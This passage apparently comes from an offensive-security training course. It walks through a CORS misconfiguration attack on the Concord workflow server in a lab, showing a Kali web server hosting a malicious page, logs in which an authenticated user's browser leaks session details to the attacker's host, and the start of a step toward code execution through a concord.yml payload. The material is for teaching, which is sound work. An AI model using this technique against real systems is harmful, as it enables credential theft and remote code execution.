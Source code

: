 kali@kali:~$ mkdir concord

kali@kali:~$ cd concord/

kali@kali:~/concord$ mousepad index.html

kali@kali:~/concord$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Listing 15 - Serving HTML with whoami Request

Next, we'll visit this page in Firefox to validate that it is working. Since we are not logged into Concord, we should expect to hit the else branch and return a "UserNotLoggedIn" message.

Figure 24: Visiting Page in Firefox
Figure 24: Visiting Page in Firefox
When we check the Python HTTP server logs, we find that we indeed received a "UserNotLoggedIn" message.

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET / HTTP/1.1" 200 -
192.168.118.2 - - [07/Apr/2021 19:35:30] code 404, message File not found
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET /favicon.ico HTTP/1.1" 404 -
192.168.118.2 - - [07/Apr/2021 19:35:30] "GET /?msg=UserNotLoggedIn HTTP/1.1" 200 -
Listing 16 - UserNotLoggedIn in Logs

Using the provided Kali debugger VM, we have access to a user activity simulator that will visit any page we provide. The simulator includes a user authenticated to Concord. If we didn't start the debugger VM earlier, we'll need to start it now on the Labs page. We'll use this simulator to test our current payload to verify that it is working.

To connect, we'll RDP to the Kali debugger and visit http://simulator. We'll enter our Kali IP and click Simulate.

Once the simulation is complete, we'll again check our HTTP server logs.

192.168.121.253 - - [07/Apr/2021 19:48:44] "GET / HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 19:48:45] "GET /?msg={%20%20%22realm%22%20:%20%22apikey%22,%20%20%22username%22%20:%20%22concordAgent%22,%20%20%22displayName%22%20:%20%22concordAgent%22} HTTP/1.1" 200 -
Listing 17 - Logged In User Executing Payload

As expected, the CORS payload worked. When an authenticated user visited the page, our malicious site was able to send a request to Concord and include the user's credentials. Let's decode the message to understand what kind of information we were able to obtain.

{
	"realm": "apikey",
	"username": "concordAgent",
	"displayName": "concordAgent"
}
Listing 18 - Decoded Message

We seem to have phished the concordAgent user. Next, let's attempt to reach code execution by sending the concord.yml file we created earlier. We'll start by defining the YAML at the beginning of the script tags in the HTML file. We'll use a string template to make the payload easier to edit if we need to. It's important to note that YAML is very sensitive to whitespace, so we cannot use additional tabs to make this document format easier to read.
